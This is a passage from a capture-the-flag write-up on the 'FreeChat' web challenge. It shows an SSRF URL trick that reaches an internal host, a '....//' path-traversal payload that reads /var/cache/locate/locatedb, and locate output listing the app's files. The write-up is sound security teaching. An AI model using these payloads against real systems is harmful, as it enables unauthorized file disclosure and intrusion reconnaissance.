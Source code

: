 It's the developer panel of the FreeChat app, interesting! It looks like the app is available on an other host `devpanel:8000` but we need to input an access token through a GET parameter named token. There's also a hint button that executes a script in `/static/js/hint.js`. Let's get the hint content through the SSRF (http://pbs.twimg.com@localhost:1337/static/js/hint.js)

```js
function hint(){
    document.getElementById("hint").innerHTML = "<h5>Hint: Don't be stupid admin, if you've lost the <b>token</b> you can still <b>locate</b> it. Just think!</h5>"
}
```

So, a lot of garbage but two words are in bold, "locate" and "token". We need to locate the token if we've lost it...

## Locatedb for the win

Now's the tricky part but also the most interesting/funny one. Some of you readers must be GNU/Linux users, you've all once forgotten the path of some binary or file on your filesystem. Who rescued you ? The `locate` bin of course. How does locate work ? I can't be clearer than the man: "locate reads one or more databases prepared by updatedb(8) and writes file names matching at least one of the PATTERNs to standard output, one per line." (https://linux.die.net/man/1/locate)

So there's a file on GNU/Linux systems that indexes every file on the OS ? Incredible :). But where is this database located ? Our operating system is Debian12 (challenge's statement). Debian's manual is very clear "The database file to build. Default is system-dependent. In Debian GNU/Linux, the default is /var/cache/locate/locatedb." (https://manpages.debian.org/bullseye/locate/updatedb.1.en.html)

Getting back to our file read, let's try and get this database's content (http://worker05.gcc-ctf.com:12033/pfp?name=....//....//....//....//....//....//var/cache/locate/locatedb)

![locatedb](img/locatedb.png)

Success, now let's dig into it using the locate command (I ran everything in a debian:12 docker container):

``` 
root@6a94dbd143d1:/tmp/mounted# locate -d ./locatedb 'freechat'
/freechat
/freechat/app.py
/freechat/instance
/freechat/instance/.gitkeep
/freechat/lib
/freechat/lib/accounts.py
/freechat/lib/chat.py
/freechat/lib/database.py
/freechat/lib/settings.py
/freechat/pfp
/freechat/pfp/default.png
/freechat/requirements.txt
/freechat/static
/freechat/static/css
/freechat/static/css/custom.css
/freechat/static/css/uikit-rtl.css
/freechat/static/css/uikit.min.css
/freechat/static/img
/freechat/static/img/favicon.ico
/freechat/static/img/logo.png
/freechat/static/js
/freechat/static/js/login.js
/freechat/static/js/menu_switcher.js
```